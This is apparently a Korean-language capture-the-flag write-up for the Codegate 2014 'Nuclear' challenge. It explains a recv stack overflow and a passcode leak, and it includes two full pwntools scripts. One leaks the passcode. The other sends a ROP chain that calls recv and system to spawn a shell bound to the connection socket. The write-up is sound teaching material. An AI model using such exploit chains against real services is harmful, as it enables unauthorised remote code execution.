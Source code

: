 # 주의 사항

THIS_IS_NOT_KEY_JUST_PASSCODE 라는 파일을 만들어야합니다!

내용은 자유

# Codegate 2014 Nuclear 풀이

문제 요약 : passcode를 leak한 다음 recv를 이용한 Stack buffer overflow를 요구하는 문제



먼저 공격 벡터를 찾아보기로 했다.

sub_8048B9C에 pthread_create에 인자인 start_routine 함수를 보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_0.JPG)



분명히 buf는 524 바이트가 할당되어 있는데,  recv로 할당하는 크기는 0x512 즉 1298 바이트를 할당한다. 이 부분에서 stack overflow가 일어남을 알 수 있다.



근데 한 가지 문제가 있었다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_1.JPG)



launch를 하면 passcode를 입력해아하는데, 이 passcode는 THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일을 읽어서 저장된 값이다.  근데 이 파일은 내가 만들었긴하지만 모른다는 가정하에 PASSCODE를 구하려면 어딘가에서 leak을 해야했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_2.JPG)



leak 하기 전 스택의 상황을 살펴보니

| result | newthread | str | v4 | v5 | passcode | v7 | *stream|으로 이루어진 것을 알 수 있다.

그리고 위를 바탕으로 leak을 할 수 있는 함수를 찾았더니



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_3.JPG)



아마 이것이 leak을 위한 함수 같다. 근데 이것만 이용하면 str을 다 채운다고 해도 v4, v5에 가로막혀 passcode의 값을 빼기는 힘들다.

그래서 v4, v5에 있을 NULL을 없애기 위한 방법을 찾아보았다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_4.JPG)

 

target이란 명령어를 입력하면 %f/%f로 v5와 &v4에 값을 채워넣는데 이 부분의 NULL을 없애면 아마 passcode를 leak할 수 있을 듯 하다.



이를 바탕으로 leak하는 함수를 짜보았다.

```python
from pwn import *

r = remote("localhost", 1129)

r.recvuntil("> ")
r.sendline("target")
r.recvuntil("---> ")
r.sendline("123.456798/123.456789") # v4와 v5의 값을 채워줌
r.recvuntil("> ")
r.sendline("A"*516)
r.recv(0x21e) # garbage 값 버리기
passcode = r.recv(1024)
print "[*] passcode : " + passcode
```



이를 실행해보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_5.JPG)



와~ passcode가 passcode였다. ㅋ



이제 launch 메뉴에서 passcode를 입력하고 공격 벡터를 공격하면 되겠다.

먼저 어떤 보호기법이 걸려있나 살펴보기로 한다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_6.JPG)



NX만 걸려있다. 그러면 일단 쉘코드 문제는 아니니깐 ROP를 하면 되겠다.

근데 plt를 구할 때, 나는 ELF를 이용하여 구했는데 이게 제대로 된 값이 아니었다... ㅠㅠ

그래서 어짜피 서버는 계속 똑같은 값을 가지고 있을 것이니깐 디버깅을 통해 함수 주소를 구해온 후  익스를 하기로 했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_7.JPG)



이젠 그냥 이 주소를 가지고 rop를 때리면??



```python
from pwn import *
import time

binary = "./nuclear"
libc = "/lib/i386-linux-gnu/libc-2.23.so"

#context.log_level = "debug"

r = remote('localhost', 1129)
e = ELF(binary)

#time.sleep(10) # 디버깅을 위한 sleep

ppppr = 0x804917c
bss = e.bss()
recv = 0xf76b3340
system = 0xf7528da0

r.recvuntil("> ")
r.sendline("launch")
r.recvuntil(": ")
r.sendline("passcode")
r.recvuntil("COUNT DOWN : 100")

print "[*] gadget addr : " + hex(ppppr)
print "[*] bss addr : " + hex(bss)
print "[*] recv addr : " + hex(recv)
print "[*] system addr : " + hex(system)

payload = "A" * 528
payload += p32(recv)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)
payload += p32(0)

payload += p32(system)
payload += "ABCD"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")  # 그냥 /bin/sh 때리면 서버에서 처리됨
r.recv(1024)
r.interactive()
r.close()
```



이러면??



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_8.JPG)



성공!!!!
